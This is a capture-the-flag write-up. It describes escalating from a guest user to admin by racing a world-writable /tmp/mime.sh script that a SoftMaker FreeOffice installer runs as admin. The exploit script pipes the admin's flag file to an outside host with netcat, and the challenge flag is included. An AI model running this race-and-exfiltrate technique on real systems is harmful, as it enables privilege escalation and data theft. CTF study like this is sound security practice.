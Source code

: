 when running docker container with the run-debug.sh you are able to explore
the filesystem.

when the container starts, a script for a user 'guest' runs, this is your
exploit.sh (see my input below) then an admin script starts.

the admin basically installs /home/admin/data/softmaker-
freeoffice-2018_980-01_amd64.deb and then opens up a presentation file that
includes the flag.  
so goal is to get the real flag file.

so while exploring the filesystem you might look for files writeable by
others, i noticed a log file **/tmp/smfree.1.log**

when looking through the log file you notice the line:

** su admin -c "sh /tmp/mime.sh" **

nice, script gets executed as admin!

so the idea was to write this file before the install process kicks in and
include some commands to copy the flag.prdx file from admin home (location is
known from the docker image)

this took me forever ... well at least too long to submit the flag ... BUT ..
i came close (again) the problem is that when you write stuff into
/tmp/mime.sh it might get overwritten by the package install scripts. my
version worked pretty well in the local sandbox without any need to worry
about such race condition that was a bit confusing.

then i tried couple of things to wait for the process or  wait for the mime.sh
file show up  but all failed ... so only after ctf finished i tried this
version writing a different tmp file and continuesly copy over the
/tmp/mime.sh in the hopes it gets executed ... and ... it finally worked

```  
touch /tmp/mime.sh  
chmod 777  
  
/bin/cat <<EOF >/tmp/mymime.sh  
cat /home/admin/data/flag.prdx | nc myserver.de 12345  
  
EOF  
  
while true;  
do  
    cp /tmp/mymime.sh /tmp/mime.sh  
done  
```

Flag: DrgnS{W4at_ab0ut_r3spon5ible_di5closur3}